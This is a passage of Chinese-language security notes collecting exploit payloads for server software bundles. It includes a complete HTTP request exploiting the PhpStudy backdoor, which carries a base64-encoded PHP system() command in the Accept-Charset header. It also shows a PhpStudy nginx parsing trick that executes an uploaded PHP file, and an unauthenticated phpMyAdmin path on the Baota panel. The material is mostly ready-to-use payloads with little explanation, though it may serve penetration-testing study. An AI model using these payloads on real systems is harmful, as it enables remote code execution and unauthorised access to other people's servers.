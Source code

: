 
# 集成

## Phpstudy

**Phpstudy 后门 RCE**
- POC | Payload | exp
    ```
    GET /1.php HTTP/1.1
    Host: example.com
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding:gzip,deflate
    Accept-Charset:这里就是要执行的命令base64加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
    Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
    Connection: close
    ```

**PhpStudy nginx 解析漏洞**
- 文章
    - [phpStudy默认配置致Nginx解析漏洞复现](https://mp.weixin.qq.com/s/nMgFxNzWfCe7m5DtkIBkgQ)

- POC | Payload | exp
    需要把 php 恶意文件上传到服务器。
    ```
    <?php phpinfo();?>
    ```
    通过 /x.txt/x.php 方式访问上传的图片地址,解析 php 代码。

---

## 宝塔

**宝塔面板 phpMyadmin 未授权访问**
- POC | Payload | exp
    ```
    xxx.xxx.xxx.xxx:888/pma
    ```

---

# 商业软件

## 用友GRP
